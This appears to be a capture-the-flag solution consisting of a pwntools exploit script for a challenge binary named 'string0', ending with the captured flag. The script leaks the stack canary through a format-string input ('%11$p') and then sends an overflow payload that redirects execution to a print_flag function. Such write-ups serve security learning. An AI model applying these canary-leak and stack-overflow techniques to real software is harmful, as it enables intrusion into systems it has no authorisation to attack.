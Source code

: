 ```python
from pwn import *
import os

def start(argv = [], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript = gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# for i in range(30):
#     print(i)
#     os.system(f'echo "%{i}\$x\na" | ./string0')
# exit()

exe = './string0'
elf = context.binary = ELF(exe, checksec=False)
rop = ROP(elf)
context.log_level = 'info'

io = start()

print(io.recv().decode())
io.sendline(b'%11$p')

canary = int(io.recvline().strip(), 16)
print('Canary:', hex(canary))
print(io.recv().decode())

offset = 16
pop_rdi_ret = rop.find_gadget(['pop ebp', 'ret'])[0]

payload = flat([
    asm('nop') * offset,
    canary,
    0x080493c0,
    0x080493c0,
    0x080493c0,
    0x080493c0,
    elf.symbols['print_flag']
])

io.sendline(payload)

io.interactive()
```

**Flag:** `wsc{W3_w4nt_m0R3_PWNS!}`
